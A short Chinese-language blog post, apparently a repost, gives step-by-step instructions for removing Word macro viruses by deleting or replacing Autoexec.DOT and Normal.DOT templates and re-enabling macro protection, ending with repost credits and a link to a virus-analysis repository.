### 恢复被宏病毒破坏的文档

对于普通用户来说，清理宏病毒显得麻烦，因为文档被宏病毒感染后（实际上是文档使用的模板文档被感染），使用文档时常常会出现一些异常情况，即使用杀毒软件将所有带毒的文档文件都处理一遍，但是，当重新打开它们时病毒又出现了。有些用户采用的是将Office卸载重装，但是有时候问题还是没有被解决。

其实，对于宏病毒的清理并不难，下面以删除Word宏病毒为例分步骤详细说明：

①　退出Word程序，先查看系统盘根目录下是否存在Autoexec.DOT文件，如果存在，而又不知道它是什么时候出现，则将其删除。

②　然后找到Normal.DOT文件，一般位于C:\Documents and Settings\ Administrator\Application Data\Microsoft\Templates目录下，用先前干净的备份将其替换，也可以直接删除，Word不会因为找不到Normal.DOT而拒绝启动，它会自动重新生成一个干净的没有任何外来宏的Noraml.DOT。

③　查看Noraml.DOT所在的目录中是否存在其他模板文件，如果存在且不是自己复制进去的，将其删除。

④　重新启动Word程序，查看Word是否恢复正常了。

⑤　最后检查宏病毒防护是否被启用了，某些病毒会自动禁用宏病毒防护功能，如果不启用禁用宏功能，Word会很快再次被病毒感染。

## 说明

- 本文并非原创，乃是征得作者同意后的转载 原作者为狐狸先生 未经允许,禁止转载
- 需要相关文件可以到我的Github下载:https://github.com/TonyChen56/Virus-Analysis
- 应作者要求 贴上知识星球图片 主要分享病毒分析和逆向破解技术，文章质量很高 我也在这个星球里 大家可以积极加入


